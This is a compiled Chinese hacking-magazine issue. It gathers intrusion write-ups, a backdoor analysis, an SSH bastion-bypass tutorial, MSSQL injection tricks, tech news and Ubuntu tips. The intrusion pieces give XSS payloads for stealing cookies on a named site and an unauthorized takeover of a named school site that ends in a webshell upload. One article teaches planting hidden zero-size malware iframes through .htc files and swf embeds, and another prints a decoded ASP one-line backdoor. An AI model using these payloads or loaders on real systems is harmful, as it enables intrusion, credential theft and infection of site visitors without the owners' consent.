虽然已近秋冬，北京的天还是有一些热。闲来无事，就去帮同学的公司网站做了一个安全检测。因为该网站是一个和校内网差不多的社交网站，所以我把此次行动的目标定为了跨站检测。通常我们都会认为跨站是一个比较鸡肋的漏洞，我以前一直是这么认为的，所以对跨站没有什么深入的学习。但是现在才发现，跨站是一门艺术，绝对如此！注入的思想在于插入，而跨站的思想也是在于插入。废话少说，不要怪我啰嗦……

通常跨站漏洞的基本危害主要有：

- 1. 制作 xss 蠕虫病毒在站内横向传播，当然了纵向传播也不是不可以，严重的可以瘫痪掉服务器。
- 2. 可以使网站转向。例如：`test.php?a=<script>top.location.href='http://www.baidu.com';</script>`。
- 3. 可以盗取 cookie，盗取 cookie 后我们当然是用来 cookie 欺骗了，从而伪造登录。
- 4. 可以构造死循环，让浏览者 CPU 占用 100%，比如：`test.php?a=<script>while(true)true;</script>`，这个倒是自杀的好办法。
- 5. 可以挂马，传播病毒。尤其是针对一些社交网站、博客网站。
- 7. 可以进行网络钓鱼，结合社会工程学更能有所发挥。

下边是同学网的跨站测试，我们先在更改状态的地方输入 `#<script>alert(/xss/)</script>`，会返回如图 1 所示的情形。

接下来让我们测试一下账号登录的地方，作为一个跨站的新手，我们对表单提交还是比较敏感的，在窗口登录的地方有没有过滤掉 `<` 和 `>`，所以可以轻易地构造一个 URL 用来跨站。访问下面的地址：

```text
http://www.tongxue.com/login.php?authWay=email&email=%22%3E<script%20%0a%0d>alert(/xss/)%3C/script%3E&pass=yang
```


我们可以弹出如图 2 的窗口，看来跨站真的是无处不在啊！其实非但登录的地方存在跨站漏洞，注册的地方也是存在着漏洞的。访问 `http://www.tongxue.com/r.php?ref=%22%3E<ScRiPt%20%0a%0d>alert(/qq410092514/)%3B</ScRiPt>` 同样可以得到跨站的效果。

`alert(/xss/)`，结果`<`和`>`都被过滤掉了。跨站过滤的方式千奇百怪，但是过滤掉`<`和`>`是最常见的，其他的像163邮箱会把javascript改成java-script。

url 的跨站真的是很无趣，我们希望找到一些持久性强的跨站，至少用起来会比较爽。

既然登录和注册的地方都可以跨站，我们是不是可以去修改资料的地方尝试一下呢？接下来我们就去修改资料的地方测试一下那里的跨站漏洞。

在修改资料里写入跨站测试代码`<script>alert(/xss/)</script>`，会发现存在多处的跨站，如图3所示。这里的跨站属于持久性跨站，通常都会有比较大的危害性。

说了这么长时间，还没有谈及社交网最重要的一个模块——日志系统，这里如果有个漏洞就会比较爽了。

我们先去检测一下，发表一篇日志，在内容里输入：

我们接着尝试其他的过滤语句，发现都不可以绕过。但是当检测给文字加超级链接的时候，发现了一个漏洞。我们在文字链接地址处输入`/#" onmouseover="alert(/xss/)`便可以成功跨站，如图4。接着把`/xss/`换成`document.cookie`，当我们访问日志的时候就会弹出如图5所示的页面。

图5中返回的是我们登录的 cookie。既然这里 onmouseover 没有被过滤掉，我们也可以去尝试一下其他的事件，可以利用到的事件有50多个，在这里就没有时间去测试了。

因为这次检测只是为了检测出漏洞，所以没有涉及到利用的方法，再者挂马不是有思想的人该做的，同时也要尊重他人的劳动成果。漏洞报告发给了同学网的管理员后，他们也积极地配合进行了网站改版，当然现在的网站还存在部分漏洞。最后，希望可以多和大家交流，我在《黑客手册》论坛上的 ID 是“无生”。

> **编辑点评：** 文章中的 xss 只是弹出一个框框，如果能有实际利用，文章就好看多了。找到漏洞还要利用，才是我们最终目的。文章里的 url 的 xss 会被 IE8 阻挡，如何突破 IE8 也是 xss 的一个难点。

# 友情检测中国校园服务网

——啊冰【岁月联盟】

## 从本文可以了解到简单的入侵过程

小弟是搞破解的，最近学习入侵，第一次写文章，有不好的地方请见谅。最近我们宿舍来了一个发兼职单子的，这哥们一天跑八次，早烦他了，于是就拿他发单子的这个网站来练手。

打开网站随意点了一篇文章，习惯性地在后面加了个单引号，返回正常，然后 and 1=1 出现如图1的错误提示。很明显有注入漏洞，由于刚学几天，所以手工注入就算了，直接拖出啊D工具来为我们服务。检测结果出来了，比较郁闷，竟然没有找到可用字段，如图2。

无奈，只好检测看看它的后台地址是什么。这回啊D检测出来了，后台地址为`http://www.school58.com/newssystem/login.asp`，一看就是用的讯时网站管理系统。试着输入了下载源码的账号密码，提示错误。本打算放弃，可是感觉又不甘心，所以就下载了一套讯时网站的程序源码来研究，发现有一个小小的漏洞。就是当我打开 `http://www.school58.com/newssystem/admin_index.asp` 这个地址的时候，程序跳过了登录验证而直接到了后台。不过后台功能很少，如图3，并很幸运地得到一个可以修改系统管理员密码的账户，如图4。

修改成功后我们来到网站的后台 `http://www.school58.com/newssystem/login.asp` 进行登录，提示登录成功，如图5。

利用新闻增加中的插入图片功能，上传我们命名为图片格式的大马，如图6。上传成功后我们来到代码编辑框，找到我们上传大马的路径，如图7。

然后利用网站的恢复功能，把 jpg 格式的大马恢复成 asp 格式的，如图8。数据恢复成功后拿到 webshell，如图9。

> 编辑点评：  
> 我不清楚这是否所有版本都有一个 `admin_index.asp` 后台文件没有验证，还是只针对此网站的某个系列的版本。另外作者说用啊D没有跑出后台名可用字段，如果该网站没有改数据库字段的话，可以将下载的源码中的数据库字段名添加到啊D的字典里去就可以了。

# 记一次非主流拿 webshell

风飞鸟游鱼

## 从本文可以了解到简单入侵

一天朋友发了一个站给我，问我能不能拿到 webshell。我看了一下，是一个企业站，一般企业站都很好拿，所以就毫不犹豫地答应了，后来却费了一番功夫才拿到。好了，我们进入正题。

我前台测试了一下，没有发现可用的注入点。我想也是，要是这么容易，估计朋友两三下就搞定了。我发现主页有个后台页面的链接，为 `admin/login.asp`，就用 wwwscan 扫了一下，发现存在 `admin/htmledit/` 目录，如图1。

心中大喜，这下有戏了，赶紧在后面打上了 `admin_login.asp` 进行访问，出现了紧张的红色界面，如图2。

输入默认的用户名密码，提示密码错误。没事，把数据库下载下来再看，不就好了吗？输入 `db/ewebeditor.mdb`，成功下得数据库，如图3。

今天真是 RP 爆发了，直接把密码弄到 cmd5 网站去破解，成功获得，密码就几个数字。我想这样就可以向朋友交差了，后来才知道原来这只是开始。

来到后台点击“样式管理”，直接拷贝一个原有样式，结果出现了如图4的页面。

看来数据库被管理员改成了只读，没关系，说不定前人已经给我们留下了后门呢。我又开始耐心地看数据库，结果一无所获，没有发现特别搞笑的上传后缀，如图5。

没办法了，只能用最后一招，使用 `admin_uploadfile.asp?id=14&dir=../../../` 到目录。在俺细心的查找下，发现主目录下一个名为 `up.asp` 的文件很可疑，文件的大小比一般正常的 asp 文件大出了很多，打开后出现了一个大马的界面，如图6。

看着有一种似曾相识的感觉，我试了一些常用的密码，均以失败告终。没办法，把地址发给朋友，朋友马上把那个大马发了过来，是加密版的，我解密了一下，研究了下代码，发现了作者的后门。

作者估计用了很多心思吧，当你登录成功，查看 IE 隐私策略时，并没有发现什么可疑的网站，如图7。可是当你点击组件支持的时候，却出现了一个可疑的网址，是一个希网动态域名指向的地址，如图8。

这是什么，我想不用说就知道了吧，应该是作者留的后门，但是并没有发送任何关于密码的信息，最多只是知道这个 shell 的地址。

那么作者又是通过什么方法利用这个后门的呢？我想应该可以在这个 aspshell 代码中找到答案。终于我在解密代码中发现了如下代码：

`request("1")`，但是又和一般的一句话不同，因为它只能执行 1 赋值的命令，所以你不能用 `x.asp?1=X`（任意赋值）来连接，只能用 `x.asp?1=execute("命令")` 来连接。

我借用 lake2 大大的一句话木马客户端代码写了一个连接端，为了节省《黑手》版面，代码在此就不贴出来了，如图9。

这样，我们就拿那个 webshell 做下试验吧，如图10。

接下来查看路径，上传我们的 webshell 即可，至此朋友交代的任务完成了，准备好好敲他一顿了。这里声明：哥不是非主流，只是用了非主流的方法。我在《黑手》论坛的 ID 是：operatuin0，希望大家和我交流。

```text
rinimamab=" if%20request%28%22l%22%29%3C%3E%22%22%20then%20execute%20request%28%22l%22%29"
rinimamab=replace(rinimamab,"@@@","")
execute (unescape(rinimamab))
url 反编码后
rinimamab=" if request("l")<>"" then execute request("l")"
```

显然这个是一句话后门，l 不为空就可以执行 execute。

> 【作者写的 ASP 木马引用 .htm 文件，已收录在本期光盘】

> 编辑点评：作者的做法有点啰嗦了，如果一句话代码为：`If request("l")<>"" then execute request("l")`，那么直接用海阳顶端或别的一句话来连接就可以了，密码为 l。

# 利用 SSH 服务突破业务堡垒机的统一入口限制

本文写的是 putty 的一个端口转发技巧。

随着经济全球化进程的日益加剧，国内的上市公司企业数量也与日俱增，SOX（萨班斯）法案也随之成为各大企业与机构的主要内审依据之一。为了有效实现 SOX 法案中针对 IT 审计的技术支撑手段，各大安全厂家均推出了自己的 4A 解决方案。从一开始的旁路审计系统，到后来的业务堡垒机、综合审计平台等等，且各自具备特殊亮点。在此番如火如荼的激烈战斗中，让我们切身地了解到了业务堡垒机这种 IT 安全审计中坚产品的位置。

本来设计业务堡垒机的初衷是为了营造出一个唯一的安全登录入口，实现对维护通讯进行统一的账号管理、认证、授权与审计工作，同时为保障自然人与这个唯一入口间的通讯链路是安全的，因此大家都会用 SSH 作为通讯手段。

但不要忘记 SSH 除了是个加密的 telnet 替代品外，还提供大量特殊功能，如 SCP 以及本次实验所使用到的 TCP Forward 功能（类似于 TCP 端口映射技术），通过这项功能我们可以轻易绕过大部分的业务堡垒机产品。针对上述论点我们进行下面的实验，首先部署一个模拟的企业内部通讯网络，其架构主要包含一个 OA 区（维护终端区域）、服务器区域以及一台用于隔离用的核心路由器，具体示意如图1。

正常的情况下，处于 OA 区域的远程维护终端可以直接访问服务器区域的所有服务器应用，但这样有违业务堡垒机部署的初衷，因此我们需要在核心路由器上加入相应的 ACL 安全策略，实现远程维护操作必须“以业务堡垒机作为唯一安全入口”的最终目的。

以下为核心路由器（CISCO C2600 Version 12.2）主要配置：

```text
interface FastEthernet0/0.1
 description link to server
 encapsulation dot1Q 1 native
 ip address 192.168.10.10 255.255.255.0
 ip access-group passall in
 ip access-group passall out

interface FastEthernet0/0.2
 description link to OA
 encapsulation dot1Q 2
 ip address 192.168.20.1 255.255.255.0
 ip access-group untrust in
 ip access-group passall out

ip access-list extended untrust ...
permit tcp any host 192.168.100.4 eq 22
deny ip any 192.168.100.0 0.0.0.255
permit ip any any
!
```

通过上述配置可以确认：通过配置名为“untrust”的 ACL 实现用户不能访问 `192.168.100.0/24` 这个网段，仅仅只能访问业务堡垒机 `192.168.100.4` 的 SSH 服务（TCP 22）的效果。

原则上，通过上述配置我们的认证环境已经满足“业务堡垒机对远程维护操作进行统一账号管理、认证、授权与审计”的目的了，且只有业务堡垒机（IP 地址为 `192.168.100.4`）是服务器区域的唯一入口。

现阶段正常情况下，处于 OA 区域的维护终端若要对处于服务器区的服务器进行维护操作，必须先利用 SSH 客户端（SecureCRT、Putty……）登录业务堡垒机，由业务堡垒机对客户端的自然人身份、权限进行鉴别，并对整个过程进行审计。但这里忽略上文所谈到的 SSH 特性——TCP Forward 功能，下面我们通过实操确认一下该功能可实现的效果。

- 第一步，我们在维护终端机器（`192.168.20.197/24`）上通过 PING 与 SSH 客户端连接服务器（`192.168.100.2/24`），可以确认“ACL 策略已隔离 OA 区与服务器区的直接访问”。
- 第二步，在维护终端机器（`192.168.20.197/24`）上打开 SSH 客户端 Putty（本例用的是 Putty，其实其它客户端程序也能完成该功能，只是操作过程存在差异而已），选择“Connection”→“SSH”→“Tunnels”分页，如图2。
- 在以下输入框中按照图2进行设置：
  - Source port：映射后的本机监听 TCP 端口，注意该端口目前不能被其它程序所占用；
  - Destination：被映射的 TCP 套接字，格式为“IP 地址:TCP 端口”。

然后点击“Add”按钮，再回到“Session”分页，在“Host Name (or IP address)”输入栏输入业务堡垒机的 IP 地址，然后点击“Open”按钮进行连接。

第三步，SSH 登录成功后再启动 Putty 并连接本机的 TCP 5545 端口即可间接连接 `192.168.100.2` 的 SSH 服务，且由于其通讯是基于 SSH 隧道的，因此业务堡垒机无法对其通讯内容进行审计。除本例所映射的 SSH 应用外，其它应用亦可使用相同的方法进行映射，从而绕过 ACL。

> 在 TCP Forward 实验过程中发现以下问题：  
> 1、启动 SSH 客户端对业务堡垒机进行 SSH 连接，若处于登录状态（即未登录成功）或登录失败将无法进入 TCP Forward 状态；  
> 2、启动 SSH 客户端对业务堡垒机进行 SSH 登录时可以使用任何权限的账号，只有登录成功即可进入 TCP Forward 状态；  
> 3、若 SSH 登录成功但本地映射端口没有开启，则说明远端的被映射端口没有开启。

本文所利用的漏洞主要是由业务堡垒机 SSH 服务的 TCP Forward 功能引起的，因此最佳的杜绝手段是在业务堡垒机的 SSH 服务中停用并禁用 TCP Forward 功能，具体办法（本方法主要针对 Openssh 应用）是在`/etc/ssh/sshd_config`中加入以下语句：`AllowTcpForwarding no`，并重新启动 ssh 服务。

完成上述操作后其现象表现为，当用户通过自然人身份登录业务堡垒机后，本地依然会开启相应的映射端口，但使用对应的客户端进行连接时却无法建立三次握手。下面重复上一个例子的操作（将远端的 `192.168.100.2:22` 映射至本地的 TCP 5545），再进行连接时将出现如图3的错误。

通过本文我们可以了解到：时下的安全产品无论是在设计上还是功能上，都已成熟，但只要存在一个大家可能忽略的小细节，就可能导致其最终实现的成果遭到根本性的破坏。

**编辑点评：** 作者写得很专业呀，貌似是一个企业网管的做法，呵呵。我对这块不熟，也不多说什么了。

# 挂马的两个新办法

“高手”慢慢形成一个风格了，渐渐和“蓝线无战事”区别开来。如果“蓝线”是谁渗透过程和思路，那么“高手”就是对某些渗透技巧的总结和深入。很长时间我也没有盯“高手专栏”这个专题了，不过也不要紧，读者和作者们已经明白我们要的是什么了。希望作者多多来稿，分享自己的积累，也希望读者越来越喜欢这个栏目。

# 高手专栏

这里只做技术讨论，请不要用本文所述方法做非法危害之事。关于挂马，基本上是在网页原来的代码里加载一个 iframe，我以前的文章写过几种加载方法，这篇文章里再提两个新方法。

## 一、利用 htc 文件来加载 iframe

> “百度百科”里对 htc 文件的解释为：

从 5.5 版本开始，Internet Explorer（IE）开始支持 Web 行为的概念，这些行为是由后缀名为 `.htc` 的脚本文件描述的，它们定义了一套方法和属性，程序员几乎可以把这些方法和属性应用到 HTML 页面上的任何元素上去。Web 行为是非常伟大的，因为它们允许程序员把自定义的功能“连接”到现有的元素和控件，而不是必须让用户下载二进制文件（例如 ActiveX 控件）来完成这个功能。Web 行为还是推荐的扩展 IE 对象模型和控件集的方法，微软在它的开发者站点上的 DHTML 行为库栏目里提供了几个定制的 Web 行为。

这些专业的术语看着就头疼，我们来实际应用一下，先看看用 vbs 写的 hello.htc 文件代码：```html
<attach event="ondocumentready" ONEVENT="Hello()" />
<script language="VBScript">
Function Hello()
    MsgBox "Hello, World!"
End Function
</script>
```

我们再写一个 1.htm 文件来调用，代码如下：

```html
<html>
<body style="behavior: url(hello.htc)">
</body>
</html>
```

把 hello.htc 和 1.htm 这两个文件放到同一个目录下，用 IE 执行 1.htm 就会成功弹出一个 “Hello, World!” 对话框。如果用 VBS 来执行的话，木马的受众局限于 IE 用户，如果我们改成 JS 的，就能使得更多的浏览用户中马。

直接用 1.htm 加载新的 hello.htc 文件，新文件的代码如下：

```html
<attach event="ondocumentready" ONEVENT="hello()" />
<script>
function hello()
{
    var O = document.createElement("iframe");
    O.width = '0';
    O.height = '0';
    O.src = 'http://www.sohu.com';
    ownerDocument.body.appendChild(O); // 注意看，这里用的是 ownerDocument，这是精华！
}
</script>
```

这样你把 hello.htc 传到对方网站目录下，然后在对方页面里加上 `<body style="behavior: url(hello.htc)">` 就可以成功加载框架了，呵呵。

## 二、关于 swf 加载网页木马的简便做法

用 swf 直接加载 iframe 也不是什么新方法了，不过我这里有一个简单做法，用到的软件就是 flasm。我已经做好了一个模板，是 swf.swf。我们在 DOS 下运行 `flasm -d swf.swf > swf.flm`，


如图 1 所示。

其中 `flasm -d swf.swf > swf.flm` 是生成 swf.flm，如果不加 `> swf.flm` 就是直接显示源码了。你只需要改变图 1 当中的 URL 地址和框架高度就可以了。


改变地址后，我们再运行一个命令：`flasm -a swf.flm`，这样就生成你需要的 swf 了，如图 2 所示。

我们再写一个 swf.htm 文件进行调用，代码如下：

```html
<head>
</head>
<body>
<embed src=swf.swf width=0 height=0></embed>
</body>
```

注意 `<embed src=swf.swf width=0 height=0></embed>` 一定要加在 body 中间，要不然你不会成功，这是和我写的 AS 代码有关。如果大家有什么疑问，可以去我的 blog：http://hi.baidu.com/myvbscript。

[本文中的文件 1.htm、hello.htc 以及 swf.htm、swf.htc、flasm.rar 已收录在本期光盘]

# SQL 查询优先级对注入的影响及利用

本文深入研究了一下 MSSQL 注入的几个技巧，介绍技术是其次的，我写稿的目的主要是对现在的圈子泼点看法，希望编辑不要掐掉这段。圈子里大部分人太浮躁，使人很担忧。就民间这个圈子来说，和国外差距已经很大了，如果再浮躁下去后果不堪设想。如果要做，请深入。

废话不多说，本文献给所有好学的朋友。先建立实验环境，并将几个对注入攻击比较重要的优先级关系搞清楚。登录你的查询分析器建立表 news 并插入两条记录，如图 1：

```sql
create table news(id int, title varchar(20), author varchar(20), contents text);
insert into news values(1,'What a fucking day!','ylbhz','Now I can see nothing');
insert into news values(2,'Who''s fuck here?','chijong','Please,take away it!');
```

好了，现在我们来做几个简单的 SQL 语句试验，一起分析它的结果。

No.1：`select title as t from news where title like '%here%'`


意义：搜寻 title 含有 here 的记录，并给记录集中的 title 取个别名 t。执行后没有任何问题，正如我们期望的那样，如图 2。


No.2：`select title as t from news where t like '%here%'`，执行后结果出错了，同时注意两个语句的区别，如图 3。

列名 t 无效？仔细寻味下这个错误，可以很容易得出结论：where 的执行优先高于 select 语句。where 先尝试进行 like 匹配的操作，然后才轮到 select 来执行。因为列名 t 是不存在的，所以 where 操作失败了。


我们把思维再拓展，ngssoft 的 David（我的偶像啊）曾经提到 SQL 标准解析语句的顺序是从左到右的，很类似于 C 语言的函数调用参数的过程。那么参照 where 谓语的其他限制条件，是否会比 where 的优先级更要高呢？下面来实验下。

```sql
No.3: select * from news where 1/0=0 and 1=1
```

注意 1/0=0 这个条件，先不管数学家如何看待 1/0 这个问题，但是编写数据库的程序员似乎对这一点并不感兴趣，结果返回：

```sql
服务器: 消息 8134，级别 16，状态 1，行 1
遇到被零除错误。
```

```sql
No.4: select * from news where 1/0=0 and 1=2
```

语句执行结果如图 4。


结果为空，也就是说不仅是 and 谓语条件在这里优先于 where，甚至于 and 返回 false 后 SQL 认为结果必定为 NULL，连前面的语句都不检测，它不知道前面有个数学难题而逃过一劫。


看到这里大家应该很明白了，但是这对注入攻击有用吗？有，对于 SQL 理解越深刻，对 SQL 注入攻击就越能发挥得淋漓尽致。继续我们的实验，让我们一步步地来看。

```sql
No.5: 我们尝试更改 id=1 那条新闻的标题，执行
update news set title='new' where id=1 and 1=2
```

这个语句返回如图 5。

这一点毋庸置疑了，很容易理解，and 返回 false 后 SQL 语句停止了执行。

```sql
No.6: 类似的，我们使用 1/0=0 的技巧来测试它，执行语句：
update news set title='new' where id=1 and 1/0=0 and 1=2
```

返回结果如下：

```sql
（所影响的行数为 0 行）
update news set title='new' where id=1 and 1/0=0 and 1=1
服务器: 消息 8134，级别 16，状态 1，行 1
遇到被零除错误。
语句已终止。
```

细心的同学看出来了，如果是注入 id 这个参数的话，update 的表现和 select 的表现变得几乎一样！这个原理对你是否有什么启发呢？

下面的文章内容主要从优先级角度帮大家解释一些“奇怪”的现象，希望对大家深刻理解 SQL 注入有好处。很抱歉，我没有办法给大家实例，只能做些原理分析，也无法实战截图。本人今年大二，从事网络安全有些时间了，希望大家相信我的实战水平。

很多人都知道搜索型注入，手工注入的快感令不少菜鸟津津乐道。我们谈谈这个情况：MSSQL 数据库显错，屏蔽 `--`，这时便需要大家手工爆数据。

具体的操作过程却有一种怪事，比如提交 `'and @@version>0 and ''='` 居然无法爆出信息！大家多试几种，到 `'and @@version>0 or ''='` 时居然可以。这个问题颇让一些小菜觉得很纠结，下面大家就跟随我分析这个问题，不做糊涂虫。

一般的搜索语句类似 `where title like '％[你能控制的部分]％'`，现在我们把开头那个语句给它“SQL”一下，语句就成了 `where title like '％' and @@version>0 and ''='％'`，可以清楚地看到，and 返回了 false。

根据前面得出的结论，`and @@version>0` 这个谓语条件并没有运算，所以没有报错。而 or 条件不会终止 SQL 语句，所以能爆出来。当然有的时候 or 也不顶用，其原因多半是你要爆的记录可以转换成数字类型，并成功了。比如有个管理员用户名叫 123，当你 `'and (select top 1 username from admin)>0 or ''='` 的时候，如果第一条记录正好是这个叫 123 的用户，那么由于 INT 类型的运算优先级高于字符类型，所以对字符 123 进行转换。由于这样的转换是能够成功的，所以你那里没有反应。

解决方法很简单，给它加一个字符，“强迫”它执行一下：`'and (select top 1 username+char(124) from admin)>0 or ''='`。

啊啊，文章到这里就结束了，聊聊数学，内容很少，希望大家能够喜欢。给大家留个相关的测试语句，聪明的读者自己体味研究原理的乐趣：

```sql
select * from news where @@version=0 union all select * from news where 1/0=0

select * from news where 1/0=0 union all select * from news where @@version=0
```

> 编辑点评：作者有点自得其乐，只是在写理论，让人觉得遗憾。我并不是说研究得不对，而是杂志毕竟是科普文章，如果再加上一点实际例子的话，大家兴趣才会更大。文章只写到这儿的话，会让人觉得作者有点孤芳自赏的味道。

风飘的网络钓“无”语。想不明白，都呼吁这么久了，国内 Linux 用户也不少了啊，为什么国内的银行网银还不支持 Linux？澳大利亚警方提出了两条防止网络银行犯罪的建议：一、永远不要点击网络银行的链接；二、不要使用 Windows。地球人都知道用 Linux 比用 Windows 要安全，咋就不支持呢？算了，咱装个虚拟机，去申请了个浦发的网银，兴冲冲地跑回家，安装，失败！再安装，再失败！Google 一下，发现几个赫然大字：浦发网银不支持虚拟机……唉，此生与网银无缘啊……


# 1、功耗仅 8W，日本惊现 8 盎司迷你版 Linux Web 服务器

传统上，用作 Web 服务器的硬件除了塔式、机架或者刀片服务器外，至少也得是台 PC 或者笔记本电脑，然而，这种概念现在就要被颠覆了。目前，一家日本厂商推出了仅重 8 盎司、功耗只有 8 瓦的迷你型 Linux Web 服务器。

新服务器被称作 OpenBlocksS 600，是由 Plat'Home 公司最新研发的。其大小为 5.2 英寸 × 3.1 英寸，1.2 英寸厚。按照这个尺寸，OpenBlocks 600 差不多和两个并排的烟盒大小相等。而对于非吸烟者，比较形象的感觉是两个相互堆叠在一起的 iPhone 手机。

OpenBlocks 600 的起价为 600 美元，其配置为一个 600MHz 的 PowerPC 处理器、1GB DDR2 SDRAM 内存和 CompactFlash 插槽，以及 3 个 USB 2.0 的内部和外部存储端口。

凤凰点评：相对于这种配置，有人说 600 美元的起价太高，但你要注意到它仅仅 8W 的功耗。也许你买电脑根本不会考虑这些，但如果是一个数据中心，功耗、散热、体积，这些都是要重点考虑的，相信这个小家伙以后会有一个好前途。服务器并不是越强越好，当然，其配置或性能或许限制了它在运用性的广度，但是便携小巧却契合了未来空间紧凑的设计方向。

# 2、中国龙芯本搭载 Chrome OS 上网本或月底上市

据媒体报道，知情人士透露，全球首款基于谷歌 Chrome OS 系统的上网本将在月底上市。

今年 7 月，谷歌宣布将推出 Chrome OS PC 操作系统，旨在向微软 Windows 系统发起挑战，基于该系统的上网本将于 2010 年下半年上市。

但知情人士透露，用户可能不用等到明年那么久，因为中国江苏中科龙梦科技有限公司将于最近推出基于 Chrome OS 的上网本。

有报道称，对于一项新技术，西方 PC 厂商在部署之前会经过严格测试。相比之下，中国 PC 厂商更乐于尝试新技术。

凤凰点评：真是没想到，中国会成为第一个吃螃蟹的人？就不知这消息的真实性，不过估计等大众拿到这期杂志，答案也就揭晓了。如果龙芯加 Chrome OS 的本本，再加上完整的软件支持，对龙芯和 Linux 的普及会起到相当大的作用。小编认为，这个螃蟹吃得好。

# 3、Google Chrome Frame 嵌入 IE 抢占市场

Google 为了抢占市场出了一个相当有趣的招数，Google Chrome Frame。它有点类似于 FireFox 的多浏览器核心扩展，支持在 IE6/7/8 上直接嵌入 Google Chrome 的浏览器渲染和 JS 引擎核心。启动 Chrome 内核后，地址栏会出现 `cf:` 字样。这种插件有助于用户了解 Chrome 并感受到它的优势，从而为正版 Chrome 的推广打好铺垫。不过也有开发人员认为，Google 的这种行为，怂恿不明真相的 IE 用户访问，和木马无异。

凤凰点评：呵呵，“Google 这招真是……”不知这位怎么看呢？为此微软和 Google 的口水战又升级了，没事的时候听听，解解闷也不错。不过其实这个功能对用户的影响不会很大，如果你是一个坚定的 IE 用户，又想体验一下 Chrome 的“快感”，也许这是个不错的选择。不过个人看来，还不如到时候你直接安装一个 Chrome。

# 4、国产厂家猛推 Android 系统 MID

国内数码厂商 Ramos 蓝魔昨天在深圳召开发布会，推出了首款使用 Google Android 操作系统的 MID 产品 W7，规格颇为值得关注。

W7 采用 Rockchip 瑞芯微的 RK28 方案，该芯片使用 65nm 工艺制造，内置 600MHz ARM 处理器，4.8 寸 1600 万色 800×480 分辨率电容式触摸屏幕，支持 WiFi 并可选 3G 无线网络。W7 支持 AVI、MKV、RMVB 等格式视频播放，支持 Flash。当然，Android 系统带来的无限扩展能力才是最大的卖点。W7 有 8GB、16GB 两种内置闪存容量版本，并支持 TF 卡扩展，售价分别为 1299 和 1599 元人民币。

凤凰点评：不得不说，比起一些大厂，一些规模小一点的或者是纯山寨对新事物的响应速度更让人满意。据预测，2012 年 Android 的市场份额将跃居世界第二。正如报道中说的，最大的卖点在于首款使用机器人系统的 MID，咱以后都不买 MP5 了，直接用这个多好……


# Ubuntu 使用谈

从本文您可以学到：

- 了解 Ubuntu 的常用软件和用法

## Tip1 软件安装

Ubuntu 之所以流行，跟它的包管理有一定的关系。它通过源安装软件的方法是非常方便的，只要知道软件名，就可以使用 apt-get 或者 aptitude、新立得软件包管理器来安装。

先介绍 apt-get 的使用，比如说，我要安装 stardict（星际译王），只要输入以下命令即可：

```bash
sudo apt-get install stardict
```

而删除则用如下命令：

```bash
sudo apt-get remove stardict
```

aptitude 的用法和 apt-get 非常类似，输入 `sudo aptitude install stardict` 用来安装，而 `sudo aptitude remove stardict` 用来删除。但是从网上所做的对比分析，通常认为 aptitude 比 apt-get 好一点，因为在删除软件的时候 aptitude 更加干净。

## Tip2 chm 电子书

从 Windows 下过来的我，手头有一大堆的 chm 格式电子书要看，Ubuntu 下有 gnochm 和 chmsee 较为常用，我推荐后者，因为从我个人的使用情况来看，前者容易出现页面显示不全的状况。

## Tip3 类似 FlashFXP 的 Linux 下的 FTP 软件

我第一次用的是 gftp，发现对中文的支持过于不好，所以删除了它，用 `sudo aptitude purge gftp`。purge 其实和 remove 差不多，但是因为我知道我以后再也不会安装 gftp 了，所以我附带删除了 gftp 的个人配置文件，purge 比 remove 就多做这么一点。通常来说，filezilla 还不错，它有 server 和 client 之分，前者是用来架设 FTP 的，后者是用来访问 FTP 的。

## Tip4 电影播放

如果想看 RMVB 格式的电影，还是不要用 realplayer。我的推荐是 smplayer，但 smplayer 只是一个前端，顺便还得安装 mplayer 这个后端，还有 ffmpeg 这个解码器，和 w32codecs 这个版权问题很严重的家伙。ffmpeg、mplayer、smplayer 在源里有，w32codecs 因为版权问题被从源里踢出去了，但是网上可以搜索到 deb 格式的文件，直接下载，网址 http://debian-multimedia.org/pool/main/w/w32codecs/。

## Tip5 音乐播放

amarok 这个是最好看的音乐播放器，但是总的来说，可能会在 gnome 下发生点问题。我第一次用它的时候是好的，后来重装了 Ubuntu 之后，就出现问题了。现在用的是 audacious，用一个词来形容，就是平凡，既没有特别的优点，也没有什么特别的缺点。我在使用 audacious 的时候碰到过一个问题，就是播放不出声音，此时可以试试删除 `user/.config/audacious` 这个文件夹，user 表示自己的用户名。

## Tip6 输入法

Fcitx，scim-fcitx，scim-pinyin，ibus

最流行的就是这四种输入法了。fcitx 又称为小企鹅输入法，不过由于源中的 fcitx 输入法版本太老，而且又安装不好，网上都只有源码的，编译起来成功的几率也不是很高，我就是没有编译它成功的人士之一，所以新手不推荐。scim-pinyin 是 Ubuntu 默认的拼音输入法，一安装好 Ubuntu 就有的输入法，感觉跟 Windows 的智能 ABC 相似，如果有好的输入法，这个 scim-pinyin 当然是不会去用它的，但是如果没有好的输入法，用它也还是可以将就的。如果能够安装好剩下的两者，那么推荐新手用剩下的两者。ibus 是需要装输入法引擎的，可惜的是源里有日语、韩语的引擎，就是没有拼音的引擎，所以这个引擎还是得从网上下。网上有 deb 包的，但是目前 ibus 的拼音引擎有两个版本，目前源里的 ibus 还是较为旧的，所以如果你从源里下 ibus，而从网上下了拼音引擎之后，ibus 不能工作的话，那么可能是你下错了引擎的版本了。

## Tip7 浏览器

firefox 是 Ubuntu 默认的浏览器，但是版本是 3.0 的，相对而言已经有些老旧，所以我把它删除了。然后从 Mozilla 的官方去下 firefox，官方上下载来的 firefox 是一个编译好的压缩包，跟 Windows 下的绿色软件类似。我把它解压后放在 `/opt/firefox` 目录中，但是同时也带来一个困难，就是每次启动 firefox，都得输入：

```bash
cd /opt/firefox
./firefox
```

后面会谈到解决方法。

opera，我还是认为它是做得不错的浏览器，尤其是融合收邮件功能于浏览器中，我觉得它是做得最好的。但是有一个输入法光标无法跟随的问题，一直得不到解决，网上我也没有搜索到教程，所以我只是安装了它，以备 firefox 崩溃时之用。

## Tip8 聊天工具

聊 MSN 可以用 pidgin，聊 QQ，腾讯已经有 linux-qq 版本了，或者 webqq 也可以。飞信的话，有 linux-fetion。总的来说，除了阿里旺旺，其它的一般都有了。

## Tip9 下载工具

Linux 下用电驴有软件 amule，类似 flashget 的软件有 d4x 和 multiget，都还不错。

## Tip10 收发邮件

本来 Ubuntu 的默认邮件客户端是 evolution，但是觉得还是 Mozilla 的 thunderbird 好用。

## Tip11 PDF 阅读器

我在 Windows 下用 foxitreader，但是发现 Linux 下的 foxitreader 虽然有，但是不好用。Ubuntu 默认安装了个 evince（文档查看器），也不是很好用。综合比较，还是 Adobe Reader 好用。

作为一般的 Ubuntu，有了上面的一些软件，日常的生活使用已经足够了，但作为一个开发者，还需要一些别的软件。

